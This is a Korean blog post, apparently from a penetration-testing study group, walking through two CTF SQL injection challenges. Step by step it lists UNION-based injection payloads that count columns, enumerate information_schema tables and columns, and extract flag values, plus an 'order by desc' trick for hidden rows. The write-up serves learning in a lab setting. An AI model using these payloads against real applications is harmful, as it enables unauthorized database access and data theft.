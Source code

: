 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이: SQL Injection w. UNION"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-25
last_modified_at: 2024-11-25

tags: [TIL, WEB, DATABASE, CTF]
---
```


# 목차
* [1번째 문제](#1번째-문제)
* [2번째 문제](#2번째-문제)

# 1번째 문제
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-1.png?raw=true)
처음 들어가면 볼 수 있는 화면이다. SQL Injection 문제라고 제목부터 박혀있으니 얌전히 query문을 작성하겠다.

## SQL Query 파악
1. **adminer**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-2.png?raw=true)  
    * 🤔 대소문자 구분이 없구나!
  
2. 🫣 **~~adminer'~~** -> X
  
3. **a%**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-3.png?raw=true)
    * 🤔 like 구절이 있구나
  
4. 🫣 **~~a#~~** -> X
  
5. 🫣 **~~a'#~~** -> X
  
6. **a%'#**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-4.png?raw=true)
    * 🫣 ~~입력값이 들어가는 곳이 like 위치인가 보다~~
    * 🤔 query에 괄호 안 사용하고 주석 필터링 없나 보다
  
7. 🫣 **~~' and '1' = '1~~** -> X
  
8. 🫣 **~~%' and '1' = '1~~** -> X
  
9. **' and '1' = '1'#**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-5.png?raw=true)
  
## column 개수 파악하기
10. **' order by 1, 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-6.png?raw=true)
    * 💡 보이는 column이 4개니까 4개부터 시작했다.
  
11. **' order by 1, 2, 3, 4, 5 #** -> X
    * 🤔 column의 개수가 4개구만
  
## UNION 사용 가능한지 확인하기
12. **' union select 1, 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-7.png?raw=true)
  
## DATABASE 이름 확인하기
13. **' union select database(), 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-8.png?raw=true)
    * 💡 database 이름은 sqli_1이었다.
  
## TABLE 이름 확인하기
19. **' union select table_name, 2, 3, 4 from information_schema.tables where table_schema = 'sqli_1' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-9.png?raw=true)
    * 💡 table이 총 3개가 나왔는데, 딱 봐도 수상해 보이는 flag_table와 plusFlag_Table를 먼저 시도하기로 했다.
  
## COLUMN 이름 확인하기
20. **' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'flag_table' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-10.png?raw=true)
    * 💡 flag_table에서는 flag라는 column을 확인할 수 있었다.
  
21. **' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'plusFlag_Table' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-11.png?raw=true)
    * 💡 plusFlag_Table에서는 idx과 flag라는 column들을 확인할 수 있었다.
  
## DATA 추출하기
22. **' union select flag, 2, 3, 4 from flag_table #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-12.png?raw=true)
  
23. **' union select idx, flag, 3, 4 from plusFlag_Table #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-13.png?raw=true)
  
# 2번째 문제
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-14.png?raw=true)
위쪽 문제랑 보이기에는 비슷해보인다.
  
## SQL Query 파악
1. **normaltic**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-15.png?raw=true)
    * 💡 보이는 column은 ID, Level, Rank Point, info
  
2. **normaltic' and '1' = '1**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-16.png?raw=true)
    * 💡 ID가 입력한 그대로 보임
  
3. 🫣 **~~*~~** -> X
  
## column 개수 파악하기
4. **normaltic' order by 1, 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-17.png?raw=true)
    * 💡 보이는 column이 4개니까 4개부터 시작했다.
  
5. **normaltic' order by 1, 2, 3, 4, 5 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-18.png?raw=true)
  
6. **normaltic' order by 1, 2, 3, 4, 5, 6 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-19.png?raw=true)
  
7. **normaltic' order by 1, 2, 3, 4, 5, 6, 7 #** -> X
    * 🤔 column의 개수가 6개구만
  
## 출력되는 column 위치 찾기, DATABASE 이름 확인하기
8. **' union select 1, 2, 3, 4, 5, 6 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-20.png?raw=true)
    * 💡 보이는 column은 6번 위치에 있었다.
  
10. **' union select 1, 2, 3, 4, 5, database() #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-21.png?raw=true)
    * 💡 database 이름은 sqli_5이다.
  
## TABLE 이름 확인하기
11. **' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-22.png?raw=true)
    * 💡 table 이름은 flag_honey였다.
  
## COLUMN 이름 확인하기
12. **' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'flag_honey' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-23.png?raw=true)
    * 💡 column 이름은 flag였다.
  
## DATA 추출하기
13. **' union select 1, 2, 3, 4, 5, flag from flag_honey #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-24.png?raw=true)
    * 😬 어쩐지 구라핑의 냄새가 나더라
  
## TABLE 이름 확인하기
11. **' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-22.png?raw=true)
    * 🤔 왜 1개씩 밖에 안 보일까?
        * 🤔 row가 딱 한 개다?
        * 🤔 row를 한 개씩만 보여준다?
            * 🤔 다른 row가 더 있는데 안 보이는 게 아닐까?
            * 🤔 다른 row를 보려면 어떤 걸 할 수 있을까?
  
12. **' union select 1, 2, 3, 4, 5, table_name from information_schema.tables order by 6 desc#**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-25.png?raw=true)
    * 💡 view라는 다른 table이 보여요 좋아요
    * 🤔 row를 한 개씩만 보여준다가 맞는 가정이겠네
  
13. **' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' order by 6 desc #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-26.png?raw=true)
    * 💡 딱 봐도 수상한 table 이름이다.
  
## COLUMN 이름 확인하고 DATA 추출하기 1
12. **' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'secret' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-27.png?raw=true)
    * 💡 column 이름은 flag였다.
  
13. **' union select 1, 2, 3, 4, 5, flag from secret #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-28.png?raw=true)
    * 😬 아니 ㅋㅋㅋ 당했다
    * 🤔 여기서도 역순으로 정렬해볼까?
  
15. **' union select 1, 2, 3, 4, 5, flag from secret order by 6 desc #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-29.png?raw=true)